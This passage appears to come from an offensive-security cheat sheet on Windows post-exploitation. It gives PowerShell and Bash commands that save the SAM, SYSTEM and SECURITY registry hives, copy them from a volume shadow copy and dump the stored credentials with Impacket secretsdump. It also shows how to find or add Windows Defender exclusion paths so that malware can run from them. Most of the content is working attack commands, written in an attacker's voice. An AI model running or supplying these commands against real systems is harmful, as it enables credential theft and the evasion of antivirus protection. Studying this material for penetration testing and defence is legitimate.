 **Dumping secrets from the registry**

We can dump secrets from the registry and parse the files “offline” to get a list of system secrets. 🚩

On the target, we run the following:

```powershell
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save
```

PowerShell

Then on our attacking box we can dump the secrets with Impacket:

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out
```

Bash

**Dumping secrets from a Volume Shadow Copy**

We can also create a “Volume Shadow Copy” of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

```powershell
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\public\sam.save
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\public\system.save
```

PowerShell

#### Windows Defender evasion <a href="#windows-defender-evasion" id="windows-defender-evasion"></a>

_Note: All below commands require administrative privileges on the system!_

You can query Defender exclusions using PowerShell. If it returns any excluded paths, just execute your malware from there!

```powershell
Get-MpPreference | select-object -ExpandProperty ExclusionPath
```

PowerShell

Alternatively, you could add an exclusion directory for your shady stuff. 👀

```powershell
Add-MpPreference -ExclusionPath "C:\Users\Public\Downloads\SuperLegitDownloadDirectory"
```

PowerShell

If you’re more aggro, you can disable Defender entirely. It goes without saying that disabling AV/EDR products is never a good idea in practice, best to work around it instead. 🚩
